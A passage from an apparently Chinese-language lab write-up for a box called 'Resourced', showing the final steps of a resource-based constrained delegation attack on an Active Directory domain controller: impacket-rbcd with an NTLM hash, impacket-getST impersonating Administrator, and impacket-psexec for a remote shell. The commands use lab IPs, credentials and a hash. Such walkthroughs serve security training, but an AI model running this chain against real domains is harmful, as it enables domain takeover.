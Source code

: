 ```
impacket-rbcd -action write -delegate-to "RESOURCEDC$" -delegate-from "cyb0rg$" -dc-ip 192.168.118.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
```

![image-20250308154151526](./PG_win.assets/image-20250308154151526.png)

使用impacket-getST获取 RESOURCEDC 的服务票据，生成`Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache `文件

```
impacket-getST -spn cifs/resourcedc.resourced.local -impersonate Administrator resourced/cyb0rg\\$:'123@Abc' -dc-ip 192.168.118.175
```

![image-20250308154331872](./PG_win.assets/image-20250308154331872.png)

添加到环境变量

```
export KRB5CCNAME=$PWD/Administrator.ccache
```

使用klist查看本地票据

```
klist
apt update && apt install -y krb5-user   #如果没有安装
```

登录即可

```
impacket-psexec -dc-ip 192.168.118.175 -k -no-pass resourcedc.resourced.local
```



